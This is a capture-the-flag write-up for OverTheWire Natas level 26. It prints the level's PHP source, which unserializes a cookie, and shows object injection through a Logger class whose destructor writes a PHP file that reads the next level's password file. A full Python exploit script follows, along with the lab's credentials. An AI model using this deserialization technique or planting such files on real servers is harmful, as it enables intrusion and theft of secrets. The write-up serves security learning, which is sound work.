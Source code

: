 # Writeup level 26
In this challenge we are able to draw a line by giving values to four different parameters (x1,y1,x2,y2) which will then create a picture for us.

**Source Code**  

```php
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);     
        imagedestroy($img);
    }
    
    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        
            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"], 
                            $_GET["x2"], $_GET["y2"], $color);
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
        }    
    }
    
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }
        
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

```
Looking at the source code, we can see that they are saving the parameters for the line as a array and serialize it. They base64 encode the serialized object and put it as our cookie value in "drawing". As soon as I saw that they are using serialized objects, I thought we can inject our own serialized object. In this case they have a class Logger which has a magic php function called __destruct(). This function get's always called when the objects lifetime ends.

**Exploit**  
So like mentioned before, I want to inject my own serialized object or rather said an instance of the Logger class.  
First things first, I am going to copy the __construct() function from the Logger class and edit it with my values. Since we know that they are saving a picture after we put values for the line and also know that the location is url/img/natas26_sessionid.png, we can conclude that the img/ folder is writeable for us. So lets create a php file with php code which is going to get executed as soon as the object gets destroyed. We can see that the __destruct() function from the Logger class opens a logFile, which we are going to edit, and appends the exitMsg. So we just have to change the String for **logFile** and **exitMsg** where logFile is going to be our own file which gets created (img/baldysfile.php) and exitMsg our php code that prints out the password for natas27.

```php
<?php

class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;
  
    function __construct(){
        // initialise variables
        $this->initMsg="hello\n";
        $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27');?>";
        $this->logFile = "img/baldysfile.php";
    }                   
}

$logger = new Logger();
$b64_encoded = base64_encode(serialize($logger));

print($b64_encoded);

?>
```
 
 **Final Exploit**  
 
```python
import requests
import base64
import subprocess

url = "http://natas26.natas.labs.overthewire.org/?x1=123&y1=123&x2=123&y2=123"

s = requests.Session()

r = s.get(url, auth=("natas26", "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T"))

cookie_b64 = requests.utils.unquote(r.cookies['drawing'])
cookie_b64_decoded = base64.b64decode(cookie_b64)
session_id = r.cookies['PHPSESSID']

proc = subprocess.Popen(f"php logger.php", shell=True, stdout=subprocess.PIPE)
serialized_logger = proc.stdout.read()
new_cookie = serialized_logger.decode('utf-8')
s.cookies['drawing'] = new_cookie

rr = s.get(url, auth=("natas26", "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T"))
print(rr.text)

url2 = f"http://natas26.natas.labs.overthewire.org/img/baldysfile.php"
r2 = s.get(url2, auth=("natas26", "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T"))

print(r2.text)

# 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```
The passwords is:  
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
